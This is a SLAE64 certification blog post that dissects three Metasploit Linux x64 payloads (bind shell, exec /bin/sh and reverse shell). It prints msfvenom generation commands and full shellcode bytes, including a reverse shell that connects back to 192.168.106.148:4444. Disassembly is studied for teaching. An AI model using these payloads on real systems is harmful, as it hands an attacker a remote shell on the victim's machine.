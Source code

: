 ```yaml
---
title: SLAE64 - Assignment 5 - Analysis
date: 2021-04-04
tags:
- SLAE64
categories:
- SLAE Exam Assignments
- SLAE 64-bit
keywords:
    - Assembly
    - Analysis
---
```


The fifth assigment for the SLAE64 certification asks to choose 3 shellcode samples created with Msfpayload for linux/x86_64 and dissect them presenting the analysis.
<!--more-->
The list of available shellcodes have been generated using the following command:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5]
└─$ msfvenom --list payloads | grep linux/x64 > List_Payloads_Linux-x64.txt
```


## Bind TCP
The first shellcode I have selected is `linux/x64/shell_bind_tcp`. 

First of all, we need to understand which parameters this shellcode needs:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.1-ShellBindTcp]
└─$ msfvenom -p linux/x64/shell_bind_tcp  --list-options
Options for payload/linux/x64/shell_bind_tcp:
=========================


       Name: Linux Command Shell, Bind TCP Inline
     Module: payload/linux/x64/shell_bind_tcp
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 86
       Rank: Normal

Provided by:
    ricky

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LPORT  4444             yes       The listen port
RHOST                   no        The target address

Description:
  Listen for a connection and spawn a command shell
```


For the sake of diversity, I selected port 5555, therefore the shellcode generation is done with the following command:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.1-ShellBindTcp]
└─$ msfvenom -p linux/x64/shell_bind_tcp LPORT=5555 -f c -o Payload.txt
```

I have then taken the shellcode and passed it to ndisasm:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.1-ShellBindTcp]
└─$ msfvenom -p linux/x64/shell_bind_tcp LPORT=5555 -f raw | ndisasm -u -b 64 - > Disasm.txt
```

The shellcode first creates a new socket and then binds it to appropriate port and protocols:
![Bind Shell TCP Shellcode representation - Part 1](/writeups/img/5-1-bindtcp-1.png)

After that, two appropriate syscalls are executed in order to make it listening and accepting a connection.
When a connection is accepted, a new file descriptor is created and it is then duplicated into the three standard ones (STDIN, STDOUT and STDERR) with the _dup2_ syscall:
![Bind Shell TCP Shellcode representation - Part 2](/writeups/img/5-1-bindtcp-2.png)

As last part, the shellcode executes a _execve_ syscall after having pushed on the stack all the relevant parameters in order to invoke `/bin/sh`:
![Bind Shell TCP Shellcode representation - Part 3](/writeups/img/5-1-bindtcp-3.png)


## Exec

The second shellcode I have selected is `linux/x64/exec`. 

First of all, we need to understand which parameters this shellcode needs:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5]
└─$ msfvenom -p linux/x64/exec --list-options                
Options for payload/linux/x64/exec:
=========================


       Name: Linux Execute Command
     Module: payload/linux/x64/exec
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 40
       Rank: Normal

Provided by:
    ricky

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
CMD                    yes       The command string to execute

Description:
  Execute an arbitrary command
```


I opted for `/bin/sh` as command to be executed, therefore the shellcode generation is done with the following command:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.2-Exec]
└─$ msfvenom -p linux/x64/exec CMD=/bin/sh -f c -o Payload.txt
```

I have then taken the shellcode and passed it to ndisasm:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.2-Exec]
└─$ echo -ne "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05" | ndisasm -b 64 - > Disasm.txt
```

This shellcode is basically executing a single syscall to execve. The command to be executed is included in the shellcode and its address is put on the stack through a _call_ at offset 1B.

The following diagram shows the actual code and stack and registers at the syscall:
![Exec shellcode representation](/writeups/img/5-2-exec.png)


## Reverse TCP
The second shellcode I have selected is `linux/x64/shell_reverse_tcp`. 

First of all, we need to understand which parameters this shellcode needs:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5]
└─$ msfvenom -p linux/x64/shell_reverse_tcp --list-options
Options for payload/linux/x64/shell_reverse_tcp:
=========================


       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x64/shell_reverse_tcp
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 74
       Rank: Normal

Provided by:
    ricky

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Connect back to attacker and spawn a command shell
```


I have then used the ip address 192.168.106.148 as parameter, therefore the shellcode generation is done with the following command:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.3-ShellReverseTCP]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.106.148 LPORT=4444 -f c -o Payload.txt
```

I have then taken the shellcode and passed it to ndisasm:
```
┌──(kali㉿kali)-[~/Labs/SLAE64/Assignment-5/5.3-ShellReverseTCP]
└─$ echo -ne "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48\xb9\x02\x00\x11\x5c\xc0\xa8\x6a\x94\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05" | ndisasm -b 64 - > Disasm.txt
```

This shellcode first of all creates a new socket with the appropriate syscall. Then the file descriptor for the socket is used into a connect syscall, for which the address structure parameters (AF_INET family, port 4444 and IP 192.168.106.148) are pushed onto the stack.

The following diagram in two parts shows the actual code and stack and registers values at the two syscalls mentioned above:
![Reverse Shell TCP Shellcode representation - Part 1](/writeups/img/5-3-revtcp-1.png)

The shellcode now loops 3 times in order to perform the _dup2_ syscall to duplicate the file descriptor for the socket into the 3 general ones (STDIN, STDOUT and STDERR). After that, parameters for an _execve_ are pushed on the stack in order to execute `/bin/sh`.

The following diagram shows the two syscalls:
![Reverse Shell TCP Shellcode representation - Part 2](/writeups/img/5-3-revtcp-2.png)

<!-- SLAE64 Disclaimer -->
_________________
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

**Student ID**: `PA-29059`  
**GitHub repository**: [https://github.com/andrea-perfetti/SLAE64-Exam](https://github.com/andrea-perfetti/SLAE64-Exam)



This assignment has been written on a Kali Linux 2021.1 64-bit virtual machine:
```
┌──(kali㉿kali)-[~]
└─$ uname -a
Linux kali 5.10.0-kali3-amd64 #1 SMP Debian 5.10.13-1kali1 (2021-02-08) x86_64 GNU/Linux
```